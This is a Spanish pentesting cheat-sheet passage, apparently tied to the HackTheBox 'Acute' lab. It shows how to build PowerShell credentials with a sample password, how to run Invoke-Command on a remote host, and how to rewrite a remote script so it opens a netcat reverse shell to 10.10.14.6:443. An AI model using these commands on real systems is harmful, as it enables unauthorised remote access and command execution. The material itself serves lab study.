 * **Powershell Credentials: para crear unas credenciales en formato powershell.

```
$pass = ConvertTo-SecureString "<<CONTRASEÑA>>" -AsPlainText -Force PS C:\Utils>
$cred = New-Object System.Management.Automation.PSCredential("<<DOMINIO\USUARIO>>", $pass)
# Ejemplo
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\imonks", $pass)
```

* **Invoke-Comand: para ejecutar un comando como otro usuario en otro equipo del que tenemos credenciales (en formato powershell).

```
Invoke-Command -ScriptBlock { Get-Command } -ComputerName <<Nombre del equipo>> -Credential $cred

# Ejemplo 1, con dc_manage que en este caso era necesario ese parámetro:
Invoke-Command -ScriptBlock { Get-Command } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

![[Pasted image 20230214211510.png]]

* **Remplazar una cadena desde Invoke-Command:

![[Pasted image 20230214212713.png]]
```
# Cat para listar
# Replace la primera etiqueta por la segunda
# sc (Set-Content) para guardarlo en el fichero

Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.14.6 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```
* https://0xdf.gitlab.io/2022/07/16/htb-acute.html
